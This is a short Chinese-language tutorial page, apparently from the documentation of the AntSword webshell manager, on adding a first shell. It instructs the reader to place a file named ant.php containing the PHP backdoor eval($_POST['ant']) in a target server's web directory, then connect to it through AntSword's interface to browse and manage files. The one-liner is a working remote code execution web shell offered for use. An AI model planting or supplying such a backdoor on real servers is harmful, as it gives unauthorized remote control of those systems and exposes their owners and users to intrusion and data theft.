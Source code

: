 第一个Shell
---

> 本小节会教你快速添加一个Shell

下面是添加的步骤：

> 以 PHP 为例

##### 1.在目标服务器的Web目录下新建一个Shell

文件名为: `ant.php`

其内容为：

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.打开AntSword，在空白位置单击「鼠标右键」，弹出菜单，选择 「`添加数据`」

![][img_first_shell_2]

##### 3.在添加数据界面中，如下图，填必要的信息

![][img_first_shell_3]

然后点击 「`添加`」按钮，即可在数据管理中看到刚才添加的 Shell

![][img_first_shell_4]

##### 4.双击刚才添加的 Shell,即可看到文件管理界面

![][img_first_shell_5]

> 一切就是如此简单：）

[img_first_shell_1]: http://antsword.l1n3.net/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://antsword.l1n3.net/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://antsword.l1n3.net/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://antsword.l1n3.net/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://antsword.l1n3.net/doc/getting_started/first_shell_5.jpg
